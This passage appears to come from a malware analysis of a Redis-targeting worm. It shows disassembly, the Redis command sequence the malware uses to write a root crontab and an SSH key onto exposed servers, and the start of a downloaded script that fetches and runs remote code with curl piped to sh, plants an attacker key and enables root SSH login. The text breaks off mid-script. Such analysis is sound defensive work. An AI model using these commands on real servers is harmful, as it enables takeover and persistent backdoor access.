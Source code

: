 ```
|           0x0046284b      48c704240001.  mov qword [rsp], 0x100      ; [0x100:8]=0xbe1000 section.LOAD2
|           0x00462853      e828870200     call math_rand.Intn
|           0x00462858      488b5c2408     mov rbx, qword [rsp + local_8h] ; [0x8:8]=0
|           0x0046285d      48895c2440     mov qword [rsp + local_40h], rbx
|           0x00462862      48c70424fe00.  mov qword [rsp], 0xfe       ; [0xfe:8]=0xbe10000000
|           0x0046286a      e811870200     call math_rand.Intn
|           0x0046286f      488b5c2408     mov rbx, qword [rsp + local_8h] ; [0x8:8]=0
|           0x00462874      48ffc3         inc rbx
|           0x00462877      48895c2438     mov qword [rsp + local_38h], rbx
|           0x0046287c      31db           xor ebx, ebx
|           0x0046287e      48899c24c800.  mov qword [rsp + local_c8h], rbx
|           0x00462886      48899c24d000.  mov qword [rsp + local_d0h], rbx
|           0x0046288e      48899c24d800.  mov qword [rsp + local_d8h], rbx
|           0x00462896      48899c24e000.  mov qword [rsp + local_e0h], rbx
|           0x0046289e      48899c24e800.  mov qword [rsp + local_e8h], rbx
|           0x004628a6      48899c24f000.  mov qword [rsp + local_f0h], rbx
|           0x004628ae      48899c24f800.  mov qword [rsp + local_f8h], rbx
|           0x004628b6      48899c240001.  mov qword [rsp + local_100h], rbx
|           0x004628be      488d9c24c800.  lea rbx, [rsp + local_c8h]  ; 0xc8
|           0x004628c6      4883fb00       cmp rbx, 0
|           0x004628ca      0f84e0020000   je 0x462bb0
```


Then, the malware tries to connect to the generated IP at the common Redis port (6379) and issue the following commands:

```
1. config set stop-writes-on-bgsave-error no
2. config set rdbcompression no
3. config set dir /var/spool/cron
4. config set dbfilename root
5. set 1 "*/1 * * * * curl -L http://r.cxxxxxxxxg.com/pm.sh?0703 | sh"
6. save
7. config set dir /root/.ssh/
8. config set dbfilename authorized_keys
9. set 1 "ssh_pub_key_here"
10. save
11. del 1
12. config set dir /tmp
13. config set dbfilename dump.rdb
14. config set rdbcompression yest
```
The above commands will create 2 files on the target machine: `/var/spool/cron/root` and `/root/.ssh/`. The first one will contain the crontab syntax that will make the following command to be run every minute: 
`curl -L http://r.cxxxxxxxxg.com/pm.sh?0703 | sh`

This command, will download and execute the following script:

```
export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin

echo "*/10 * * * * curl -fsSL http://r.cxxxxxxxg.com/pm.sh?0706 | sh" > /var/spool/cron/root
mkdir -p /var/spool/cron/crontabs
echo "*/10 * * * * curl -fsSL http://r.cxxxxxxxg.com/pm.sh?0706 | sh" > /var/spool/cron/crontabs/root

if [ ! -f "/root/.ssh/KHK75NEOiq" ]; then
	mkdir -p ~/.ssh
	rm -f ~/.ssh/authorized_keys*
	echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzwg/9uDOWKwwr1zHxb3mtN++94RNITshREwOc9hZfS/F/yW8KgHYTKvIAk/A...b0H1BWdQbBXmVqZlXzzr6K9AZpOM+ULHzdzqrA3SX1y993qHNytbEgN+9IZCWlHOnlEPxBro4mXQkTVdQkWo0L4aR7xBlAdY7vRnrvFav root" > ~/.ssh/KHK75NEOiq
	echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
```